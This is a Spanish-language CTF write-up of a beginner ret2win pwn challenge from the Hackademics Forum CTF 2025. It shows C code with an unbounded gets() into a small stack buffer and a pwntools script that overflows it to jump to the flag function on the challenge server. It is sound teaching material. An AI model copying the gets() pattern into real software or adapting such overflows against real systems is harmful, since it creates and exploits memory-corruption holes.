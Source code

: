 ```yaml
---
layout: post
title: Feedback HFCTF 2025
comments: true
categories: [Pwn, Writeups, HFCTF2025]
---
```


Aquí traigo el segundo reto que implementé para la categoría de Pwn para el [Hackademics Forum CTF](hackademics-forum.com). Como dije se trata de un ejercicio bastante simple pensado para aquellos que se enfrentan por primera vez a esta categoría.

# Overview

Este es un reto clásico de *ret2win*, en el que debemos llamar a una función que imprimirá la flag.

<br>
![Image]({{ site.baseurl }}/images/posts/HFCTF.png){:width="250px"}
<br>

# Reconocimiento

Aunque no es necesario, si descompilamos veremos las siguientes funciones:

```c
void flag() {
    printf("Ejecutame si puedes :)\n");
    exit(0);
}

int main() {
    banner();

    char comment[50];
    printf("Deja una reseña sobre nuestro CTF: ");
    gets(comment);
    printf("Gracias! Esperamos que lo hayas disfrutado.\n");
    printf("\n(Te crees que te voy a dar una flag solo por quejarte?)\n\n");

    return 0;
}
```

Vemos que la función flag nunca es llamada. Sin embargo, disponemos de una llamada a *gets* en main, con lo que podemos desbordar el rsp e insertar la dirección de flag en la dirección de retorno, para que al terminar de ejecutar main, saltemos a flag.

Para ello debemos encontrar el offset hasta dicha dirección de retorno. Podemos hacerlo con gdb-peda, generando un patrón con `pattern create 200`, pasándoselo al programa y viendo el valor de rsp. Con `pattern offset <rsp>` tendremos el offset.

# Explotación

Para resolverlo debemos explotar el buffer overflow en el servidor, para ello utilizaremos este script:

```python
#!/bin/python3

from pwn import *

binary = '../gen/feedback'
elf = ELF(binary)

if args.LOCAL: 
    p = process(binary)

elif args.REMOTE:
    p = remote('ctf.hackademics-forum.com', 41422)
    #p = remote("ctf.hackademics-forum.com", 41422)

offset = 72
padding = b'a' * offset
flag=p64(0x40145f) # type: ignore

payload = padding + flag

log.info("Enviando exploit...")

p.sendline(payload)

p.interactive()
```